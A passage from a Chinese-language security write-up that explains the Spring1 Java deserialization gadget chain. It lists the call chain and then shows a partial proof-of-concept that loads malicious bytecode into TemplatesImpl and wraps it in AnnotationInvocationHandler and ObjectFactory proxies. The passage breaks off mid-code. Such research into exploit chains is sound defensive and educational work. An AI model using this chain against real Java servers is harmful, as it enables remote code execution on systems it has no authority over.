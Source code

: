 整条链子如下：

```plain
SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
    SerializableTypeWrapper.TypeProvider(Proxy).getType()
        AnnotationInvocationHandler.invoke()
            ReflectionUtils.invokeMethod()
                Templates(Proxy).newTransformer()
                    AutowireUtils$ObjectFactoryDelegatingInvocationHandler.invoke()
                        ObjectFactory(Proxy).getObject()
                            TemplatesImpl.newTransformer()
```

poc 如下：

```plain
package com.example.spring;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.xml.internal.bind.v2.runtime.reflect.opt.Const;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class spring1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{getTemplates()});
        setFieldValue(templatesImpl, "_name", "aiwin");
        setFieldValue(templatesImpl, "_tfactory", null);
        //AnnotationInvocationHandler 代理 objectFactory 类，让 objectFactory.getObject() 返回 TemplatesImpl 恶意类
        Class<?> annotationInvocationHandler=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor=annotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        HashMap hashMap=new HashMap();
        hashMap.put("getObject",templatesImpl);
        InvocationHandler invocationHandler= (InvocationHandler) constructor.newInstance(Target.class,hashMap);
        ObjectFactory<?> objectFactory= (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{ObjectFactory.class},invocationHandler);

        //将ObjectFactory赋值给ObjectFactoryDelegatingInvocationHandler
        Class<?>  ObjectFactoryDelegatingInvocationHandler=Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> constructor1=ObjectFactoryDelegatingInvocationHandler.getDeclaredConstructor(ObjectFactory.class);
        constructor1.setAccessible(true);
        InvocationHandler objInvocationHandler = (InvocationHandler) constructor1.newInstance(objectFactory);

        //这里是连接桥梁，承上启下，修改成Type和Templates两个接口,findMethod()时匹配返回newTransform(),
```
